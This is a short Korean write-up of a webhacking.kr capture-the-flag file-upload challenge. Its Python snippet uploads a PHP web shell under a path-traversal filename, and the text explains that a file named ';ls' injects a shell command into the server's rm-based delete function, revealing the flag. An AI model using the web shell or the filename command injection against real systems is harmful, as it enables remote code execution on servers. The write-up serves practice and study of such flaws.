




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

php 파일을 올려보면 텍스트로 올라간다.



파일 명에 경로를 줘도 안된다.

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10006/'
SESSION_ID  = '89p9cj0epl0c4lvs5tg0abkbqc'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'upfile':('../test.php','<?php system($_GET[\'cmd\']); ?>')}
data        = {'memo':'a'}
req         = requests.post(CHALLENGE, headers=headers, files=files, data=data)
```

하지만 파일 명에 OS Command를 주면 먹는다. Delete 버튼을 클릭하면 아무래도 system함수로 삭제하나 보다.

;ls 라는 파일을 업로드 후 삭제하면 FLAG를 획득할 수 있다.



* index.php를 보면 system(rm 파일명)을 사용한다. 또한 파일명에서 ..을 필터링한다.

FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**FLAG{i_think_this_chall_is_cool}**